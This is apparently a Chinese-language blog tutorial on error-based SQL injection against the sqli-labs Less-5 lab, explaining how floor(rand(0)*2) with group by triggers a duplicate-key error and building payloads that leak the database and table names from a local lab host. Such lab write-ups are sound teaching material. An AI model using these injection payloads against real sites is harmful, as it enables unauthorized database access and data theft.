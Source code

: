 ```yaml
---
layout: post
title: SQL 注入（九） 报错注入专题
desc: ""
keywords: ""
date: 2016-11-04
categories: []
tags: []
---
```


<blockquote>
  简直悲壮 = =
</blockquote>

<h2>Less-5 &amp; Less-6</h2>

<h3>Count()</h3>

<pre class="lang:tsql decode:true" title="count()">select count(*) from information_schema.tables;</pre>

该函数将会返回information_schema.tables表的行数，属于聚合函数

<h3>Rand()</h3>

<pre class="lang:tsql decode:true" title="rand()">select rand()</pre>

该函数返回一个介于0和1之间的随机数，注意rand()和rand(0)不同，传入的参数称为随机数种子，如果有这个种子，每次生成的结果都是<strong>固定的</strong>

rand(0)的三次实验

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand0_1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand0_2.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand0_3.png" />

rand()的三次实验

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand1_1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand1_2.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_test_rand1_3.png" />

<h3>Group by</h3>

group by是根据by后面的规则，将数据进行分组，分组即根据一个数据集划分为若干个小区域，然后针对若干个小区域分别进行数据处理（分类汇总）

例如 <code>select type, sum(number) as total from A group by type</code> 会统计每一种type的数量，然后返回一个表来展示每一种type的数量（即total）

group by 函数一般会和聚合函数一起使用

如果不与聚合函数一起使用，比如以下语句<code>select table_name, table_schema from information_schema.tables group by table_schema</code> 将会根据table_schema的首字母排序，输出每个数据库里第一个表的名字（只有第一个了）

<h3>Group_concat()</h3>

group_concat()函数会将数值相同的字段打印在一行，用逗号分割

<h3>注入整体分析</h3>

~~终于明白了~~

如果要分析他为何报错，我们要先来看以下几个内容：
1. select count(&#42;) from table group by x; 这个语句执行的原理
2. rand() 函数作为 group by 参数执行时的特性
3. select count(&#42;) from table group by floor(rand(0)&#42;2)报错的完整分析

<h4>select count(&#42;) from table group by x 执行原理</h4>

这个语句的意思就是将整组数据按照x这一条件分类，将每一类分别统计数量。当Mysql遇到该语句时会建立一个空的虚拟表用于统计，如下图所示：

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_table_groupby.png" />

左边是真实的表，我们要统计这个表中name相同的元素的数量，使用语句
select count(&#42;) from table group by name

这时候Mysql会先建立一个虚拟表如右图，key和value为表头，其中key对应的是name不同的值，而value则为具体的统计数量。Time是为了方便说明加入的计次

当检索第一条数据时，虚拟表中没有a这个值，因此这个值的数量1(value)将会被记录下来，这个值a(key)也会被记录下来；

当检索第二条数据时，同理，记录下了b的value和b的key；

...

当检索到第五条时，发现虚拟表中已经存在了key为d的条目，于是将对应的value增加1

<h4>rand() 函数作为 group by 参数执行时的特性</h4>

Mysql官方给过提示，当rand()函数与group by一起使用时，rand()将被执行多次，“多次”的含义是：如果虚拟表中不存在对应记录，则在讲rand()插入虚拟表时会再执行一次。

我们已经知道了在多次查询中，floor(rand(0)&#42;2)的值是固定的，为 0,1,1,0,1,1,...

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_table_error.png" />

当执行语句的时候，先会计算一次floor(rand(0)&#42;2)，这个值是0，我们的语句就变成了 select count(&#42;) from table group by 0; 以此检索第一条数据， 此时虚拟表不存在key为0的记录，我们将其value记为1，插入到虚拟表。但由于虚拟表没有这条记录，在记录key的值的时候，floor(rand(0)&#42;2)又计算了一次，值现在为1，我们实际记录的是(1:1)

接着检索第二条数据，再次计算floor(rand(0)&#42;2)，值为1，我们的虚拟表中已经存在这个结果，于是将value由1变成2

下面是检索第三条数据，floor(rand(0)&#42;2)的计算结果为0，我们的虚拟表中不存在这个结果，将value记为1，而在插入key的值的时候，又会计算一次floor(rand(0)&#42;2)，这时候key的值变成了1，于是我们得到了一条记录(1:1)，这时候键就重复了，有两个key为1的记录，于是报错

我们也可以看到，这个方法只有在表中<strong>大于三条数据</strong>的时候才能成功。

<h3>Payload</h3>

<pre class="lang:tsql decode:true " title="payload">' and (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,
floor(rand(0)*2))name from information_schema.tables group by name) --+</pre>

&nbsp;

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_payload_1.png" />
此时提示Operand should contain 1 column(s)，原因是这里只能输出1个字段，但我们的语句输出了多个字段，因此只要加上一个select 1即可，将payload改为：

<pre class="lang:tsql decode:true" title="payload">' and (slect 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,
floor(rand(0)*2))name from information_schema.tables group by name)) --+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_payload_2.png" />

这时候提示我们Every derived table must have its own alias，意思是每一个派生出来的表必须有一个自己的别名，我们进行嵌套查询的时候需要将子查询的结果作为一个派生表进行上一级的查询，因此必须有一个别名。将payload继续改进：

<pre class="lang:tsql decode:true " title="database">' and (slect 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,
floor(rand(0)*2))name from information_schema.tables group by name)x) --+</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less5_payload_3.png" />

<pre class="lang:tsql decode:true " title="table_name">http://192.168.137.128/sqli/Less-5/?id=1' and (select 1 from (select count(*),
concat(0x3a,0x3a,(select table_name from information_schema.tables limit 1,1),
0x3a,0x3a,floor(rand(0)*2))name from information_schema.tables group by name)x) --+
</pre>